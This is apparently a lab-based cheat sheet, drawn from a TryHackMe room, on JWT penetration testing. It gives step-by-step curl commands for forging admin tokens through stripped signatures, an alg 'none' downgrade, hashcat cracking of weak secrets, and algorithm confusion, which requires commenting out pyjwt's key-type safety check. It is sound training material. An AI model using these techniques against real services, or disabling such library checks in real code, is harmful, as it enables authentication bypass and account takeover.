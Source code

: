 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

#### Authenticate with a user and grab the JWT token from that user

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 
#### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

#### Grab the JWT token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 

#### Authenticate with the JWT token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

#### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

    curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE


#### Grab the JWT Token
    
    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Authenticate with the JWT Token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

#### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

#### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

#### Grab the plain text JWT header, change the Alg to None and encode it with base64.

#### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

    curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 4) Weak Symmetric Secrets

#### Grab JWT Token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Save the retrieved JWT in a text file

    nano jwt.txt 

#### Download a wordlist for JWT secrets

    wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list 

#### Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access

    hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list 

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

    curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 5) Signature Algorithm Confusion

#### Grab the JWT Token with the public key in this example

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.
    
    pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

#### Run the script to generate our forged JWT token

    python3 signature-confusion-JWT.py 

#### Gain access with our modified JWT token

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 
